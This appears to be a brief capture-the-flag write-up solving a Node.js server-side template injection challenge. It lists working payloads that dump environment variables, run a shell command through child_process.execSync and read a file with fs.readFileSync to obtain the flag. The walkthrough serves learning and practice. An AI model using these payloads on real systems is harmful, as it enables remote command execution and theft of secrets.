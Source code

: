 # Solution

1. Access to `/`
2. Try input text, echoes back input => injection vuln ?
3. Try most common template injection
4. Try `#{7*7}`, it evaluate !
5. Try to list the env vars `#{(function(){return JSON.stringify(process.env)})()}`, it works !
6. Check env vars for FLAG
7. Access FLAG_PATH and cat the file `/tmp/.file64.32738` using
```
#{(function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").execSync('cat /tmp/.file64.32738'); return sh;})()}
or
#{(function(){return JSON.stringify(process.mainModule.require('fs').readFileSync('/tmp/.file64.32738'))})()}
```
8. Get the flag

# Explanation

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
